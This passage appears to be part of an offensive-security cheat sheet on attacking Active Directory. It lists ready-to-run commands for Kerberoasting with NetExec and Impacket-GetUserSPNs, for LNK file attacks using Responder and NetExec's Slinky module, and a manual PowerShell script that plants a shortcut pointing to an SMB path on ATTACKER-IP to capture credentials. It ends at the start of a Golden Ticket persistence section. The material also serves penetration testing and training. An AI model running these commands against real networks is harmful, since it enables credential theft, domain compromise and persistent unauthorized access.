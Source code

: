 ### Kerberoasting
---
- Obtaining a **TGS** Using **NetExec**:

```c
netexec ldap <DC-IP> -u <USER> -p <PASSWD> --kerberoasting output.txt --kdcHost <IP>
```

- Obtaining a **TGS** Using **Impacket-GetUserSPNs**:

```c
impacket-GetUserSPNs -dc-ip <IP> 'DOMAIN/user:password' -request -outputfile out.txt
```

### LNK File Attacks
---
- Setup **Responder** to listen:

```python
sudo responder -I <IFACE> -v
```

- Using **NetExec's** **Slinky** module:

```python
netexec smb <IP> -d <DOMAIN> -u <USER> -p <PASSWD> -M slinky -o NAME=lnkfilename SERVER=<LHOST>
```

- Manual way

```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\<SHARE>\file.lnk")
$lnk.TargetPath = "\\ATTACKER-IP\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

## Active Directory Persistence
---

### Persistence Through Forged Tickets
---
#### Golden Tickets
---
To create a golden ticket, the following are required (dcsync):
- The NTLM hash of the KRBTGT.
- The Domain SID.

**NOTE:** Read more [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/golden-ticket.html)
##### Golden Tickets with Mimikatz

